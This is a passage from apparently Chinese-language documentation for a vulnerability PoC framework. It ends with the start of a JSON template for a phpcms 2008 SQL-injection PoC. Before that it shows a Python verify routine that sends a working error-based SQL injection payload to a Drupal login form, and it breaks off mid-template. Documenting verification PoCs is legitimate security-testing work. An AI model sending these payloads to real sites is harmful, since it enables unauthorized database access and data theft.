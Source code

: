 ```

        return self.parse_attack(result)

    def _verify(self, verify=True):
        result = {}
        vul_url = '%s/?q=node&destination=node' % self.url
        payload = {
            'name[0 and (select 1 from (select count(*),concat((select md5(715890248' \
                '135)),floor(rand(0)*2))x from  information_schema.tables group by x' \
                ')a);;#]': 'test',
            'name[0]': 'test2',
            'pass': 'test',
            'form_id': 'user_login_block',
        }

        response = req.post(vul_url, data=payload).content
        if 'e4f5fd37a92eb41ba575c81bf0d31591' in response:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['Payload'] = urllib.urlencode(payload)

        return self.parse_attack(result)

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output

register(TestPOC)

```

<h3 id="jsonexample">PoC json代码示例</h3>
[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.seebug.org/vuldb/ssvid-62274) PoC:

由于json不支持注释,所以具体字段意义请参考上文，涉及到的靶场请自行根据Seebug漏洞详情搭建。

```
{
    "pocInfo": {
        "vulID": "62274",
        "version":"1",
        "vulDate":"2011-11-21",
        "createDate":"2015-09-15",
        "updateDate":"2015-09-15",
        "name": "phpcms_2008_ads_place.class.php_sql-inj",
        "protocol": "http",
        "vulType": "SQL Injection",
        "author": "Medici.Yan",
        "references": ["http://www.seebug.org/vuldb/ssvid-62274"],
        "appName": "phpcms",
        "appVersion" : "2008",
        "appPowerLink":"http://www.phpcms.cn",
        "desc" :"phpcms 2008 中广告模块，存在参数过滤不严，导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，如果关闭了错误显示，可以采用基于时间和错误的盲注",
        "samples": ["http://127.0.0.1"]
    },

    "pocExecute":{
        "verify": [
```